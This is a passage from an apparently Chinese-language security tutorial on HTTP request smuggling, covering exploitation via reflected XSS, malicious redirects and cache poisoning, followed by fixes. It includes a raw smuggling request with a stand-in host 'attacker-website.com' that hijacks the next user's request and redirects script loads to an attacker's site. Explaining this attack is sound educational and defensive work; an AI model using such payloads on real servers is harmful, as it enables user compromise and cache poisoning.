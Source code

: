 2. 配合 Reflected XSS 进行无交互XSS

   将 Reflected XSS走私到缓冲区，等待正常用户访问。

3. 恶意重定向

   > 许多应用程序执行从一个URL到另一个URL的重定向，会将来自请求的HOST标头的主机名放入重定向URL。

   ```
   请求
   GET /home HTTP/1.1
   Host: normal-website.com
   
   响应
   HTTP/1.1 301 Moved Permanently
   Location: https://normal-website.com/home/
   ```

   通常，这样的行为是无害的，但是可以在HTTP走私请求攻击中利用它来将用户重定向到外部域中。

   ```
   POST / HTTP/1.1
   Host: vulnerable-website.com
   content-Length: 54
   Transfer-Encoding: chunked
   
   0
   
   GET /home HTTP/1.1
   Host: attacker-website.com
   Foo: x
   ```

   走私的请求将触发重定向到攻击者的网站，这将影响后端服务器处理的下一个用户请求

   ```
   拼接后的正常请求
   GET /home HTTP/1.1
   Host: attacker-website.com
   Foo: xGET /scripts/include.js HTTP/1.1
   Host: vulnerable-website.com
   
   恶意响应
   HTTP/1.1 301 Moved Permanently
   Location: https://attacker-website.com/home/
   ```

   如果用户请求的是一个JavaScript文件，该文件是由网站上的页面导入的。攻击者可以通过在响应中返回恶意的JavaScript文件来完全破坏用户。

4. 缓存投毒

   一般来说，前端服务器由于性能原因，会对后端服务器的一些资源进行缓存，如果存在HTTP请求走私漏洞，则有可能使用重定向来进行缓存投毒，从而影响后续访问的所有用户。

### 漏洞修复

1、将前端服务器配置为只使用HTTP/2与后端系统通信
2、完全禁用后端连接重用来解决此漏洞的所有变体 
3、确保连接中的所有服务器运行具有相同配置的相同web服务器软件。
4、彻底拒绝模糊的请求，并删除关联的连接。
